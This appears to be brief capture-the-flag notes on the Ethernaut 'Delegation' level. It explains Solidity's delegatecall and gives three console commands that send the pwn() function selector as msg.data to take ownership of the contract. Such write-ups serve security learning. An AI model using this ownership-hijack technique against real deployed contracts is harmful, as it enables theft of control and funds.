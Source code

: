 delegation

// send transaction to delegate contract
- _delegatecall_ method allows contract can dynamically load code from different address at runtime
NOTE: _delegatecall_ *can change state*

```javascript
await contract.owner.call() // => returns rightful owner
await contract.sendTransaction({data: web3.sha3("pwn()").slice(0,10)}) // pwn() is the method we want to call; sends, as msg.data, the first [8] bytes of the hashed invoked function
await contract.owner.call() // => should see contract owner change to attacker once tx mined
```
